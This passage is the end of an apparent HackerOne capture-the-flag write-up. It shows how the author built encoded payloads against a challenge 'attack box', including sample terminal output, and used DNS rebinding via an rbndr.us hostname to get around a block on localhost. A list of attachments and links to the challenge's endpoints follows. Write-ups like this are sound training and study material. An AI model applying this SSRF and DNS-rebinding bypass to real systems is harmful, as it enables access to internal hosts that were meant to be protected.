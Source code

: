 So we can create payload for any ip, here is script I created {F1132732} to generate the payload
I created payload for ip `127.0.0.1` ( I have to take down the grinch) and sent it in `payload` parameter.
```
┌─[✗]─[shubham@parrot]─[~/hackyholidays/attackbox]
└──╼ $python3 genpayload.py 
Enter IP Address: 127.0.0.1
Raw Payload: {"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"}
Encoded Payload: eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQ==
```
Got resposne,
{F1132737}
There is some protection for hitiing localhost so we have to bypass that protection.
Any address we give it first resolves it into an IP address then performs attack. 
There is a cool attack called [DNS-rebinding][33]
[33]: https://en.wikipedia.org/wiki/DNS_rebinding   "DNS-rebinding"
Here I used [https://github.com/taviso/rbndr][34] to perform DNS-rebinding, using `7f000001.c0a80001.rbndr.us` to create payload
[34]: https://github.com/taviso/rbndr    "https://github.com/taviso/rbndr"
```
Enter IP Address: 7f000001.c0a80001.rbndr.us
Raw Payload: {"target":"7f000001.c0a80001.rbndr.us","hash":"de9d82d4ae9a61660701e7e1844ea643"}
Encoded Payload: eyJ0YXJnZXQiOiI3ZjAwMDAwMS5jMGE4MDAwMS5yYm5kci51cyIsImhhc2giOiJkZTlkODJkNGFlOWE2MTY2MDcwMWU3ZTE4NDRlYTY0MyJ9
```
After trying out 3-4 times, finally it worked and took down Grinch and saved the holidays.
{F1132754}


Thank you hackerone for this great event, the challenges were really great. I had a lot of fun solving them and I learned many new things.

## Impact

Anyone can take down Grinch.

## Attachments
- tweet.png
- moved.png
- securelogin.png
- secretadmin.png
- hatemail1.png
- hatemail2.png
- hatemail3.png
- hatemail4.png
- forum1.png
- forum2.png
- forum3.png
- forum4.png
- forum5.png
- evilquiz1.png
- evilquiz2.png
- tamperscript.py
- signupmanager.png
- reconserver1.png
- reconserver2.png
- inception.jpg
- endpoint.py
- reconserver4.png
- reconserver3.png
- attackbox1.png
- attackbox2.png
- genpayload.py
- attackbox3.png
- Grinch_Network_Down!.png


[1]: https://hackerone.com/h1-ctf         "https://hackerone.com/h1-ctf"
[2]: https://hackyholidays.h1ctf.com/robots.txt       "https://hackyholidays.h1ctf.com/robots.txt"
[3]: https://hackyholidays.h1ctf.com/s3cr3t-ar3a "https://hackyholidays.h1ctf.com/s3cr3t-ar3a"
[5]: https://hackyholidays.h1ctf.com/swag-shop     "https://hackyholidays.h1ctf.com/swag-shop"
[6]: https://hackyholidays.h1ctf.com/swag-shop/api/sessions             "https://hackyholidays.h1ctf.com/swag-shop/api/sessions"
[7]: https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043    "/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043"
[8]: https://hackyholidays.h1ctf.com/secure-login          "https://hackyholidays.h1ctf.com/secure-login"
[8]: https://hackyholidays.h1ctf.com/my-diary/         "https://hackyholidays.h1ctf.com/my-diary/"
[9]: https://hackyholidays.h1ctf.com/my-diary/?template=index.php       "index.php"
[10]: https://hackyholidays.h1ctf.com/my-diary/?template=secretasecretaadmin.phpdmin.phpdmin.php    "https://hackyholidays.h1ctf.com/my-diary/?template=secretasecretaadmin.phpdmin.phpdmin.php"
[11]: https://hackyholidays.h1ctf.com/hate-mail-generator   "https://hackyholidays.h1ctf.com/hate-mail-generator"
[12]: https://hackyholidays.h1ctf.com/hate-mail-generator/templates/      "https://hackyholidays.h1ctf.com/hate-mail-generator/templates/"
[14]: https://github.com/Grinch-Networks/forum                 "https://github.com/Grinch-Networks/forum"
[13]: https://hackyholidays.h1ctf.com/forum              "https://hackyholidays.h1ctf.com/forum"
[15]:  https://hackyholidays.h1ctf.com/forum/phpmyadmin    "phpmyadmin"
[16]: https://hashes.org/search.php       "hashes.org"
[17]: https://hackyholidays.h1ctf.com/forum/login          "login"
[18]: https://hackyholidays.h1ctf.com/evil-quiz           "https://hackyholidays.h1ctf.com/evil-quiz"
[19]: https://pentest.blog/exploiting-second-order-sqli-flaws-by-using-burp-custom-sqlmap-tamper/   "this"
[20]: https://hackyholidays.h1ctf.com/evil-quiz/admin       "admin"
[21]: https://hackyholidays.h1ctf.com/signup-manager/         "https://hackyholidays.h1ctf.com/signup-manager/"
[22]: https://hackyholidays.h1ctf.com/signup-manager/README.md   "https://hackyholidays.h1ctf.com/signup-manager/README.md"
[23]: https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip     "https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip" 
[24]: https://www.php.net/manual/en/function.is-numeric.php        "here"
[25]: https://www.php.net/manual/en/language.types.float.php      "number"
[26]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59            "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59"
[27]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api       "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api"
[28]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k    "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k"
[29]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/uploads/13d74554c30e1069714a5a9edda8c94d.jpg "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/uploads/13d74554c30e1069714a5a9edda8c94d.jpg"
[30]: https://captnemo.in/blog/2012/06/09/nested-sql-injections/   "Here"
[31]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api      "api"
[32]: https://github.blog/2015-11-03-like-injection/      "like"
[32]: https://hackyholidays.h1ctf.com/attack-box/login     "attack-box"
